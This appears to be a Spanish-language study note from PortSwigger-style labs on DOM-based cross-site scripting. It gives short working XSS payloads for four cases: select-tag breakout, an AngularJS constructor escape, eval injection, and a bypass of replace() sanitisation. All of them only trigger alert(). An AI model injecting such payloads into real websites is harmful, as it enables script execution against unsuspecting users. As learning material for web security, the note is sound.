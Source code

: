 # XSS DOM 

Tags: #XSS #DOM #PortSwigger #JavaScript #AngularJS 

## XSS DOM con 'document.write' dentro de 'select'

```javascript 
// Se debe de cerrar las etiquetas anteriores para inyectar codigo javascript 
	</option> </select> <h1>Hola</h1>
	</option> </select> <marquee>Hola</marquee>
	
	</option> </select> <script>alert(0)</script>
```

## XSS DOM en AngularJS con comillas codificadas 

* [PayloadsAllTheThings - XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

```javascript 
// Es un Angular, por lo que se debe de hacer de la siguiente manera 
	{{constructor.constructor('alert(1)')()}} 
```

## XSS DOM reflejado 

```javascript 
// Si se usa la función 'eval()', se dede de usar funciones aritméticas (+-*), ya que si solo se coloca la siguientes instrucción, no pasará nada ya que eval no lo puede evaluar 
	test\" alert(0) } // 
	test\" + alert(0) } //
```

## XSS DOM almacenado 

```javascript 
// Se usa la función 'replace()' para hacer una pequeña sanitización, pero solo lo hará al primer match, por lo que se puede evadir. Para que realmente funcione la sanitización se debe de usar 'replaceAll()'.
	<><script>alert(0)</script>
	<><img src=0 onerror=alert(0)>
``` 
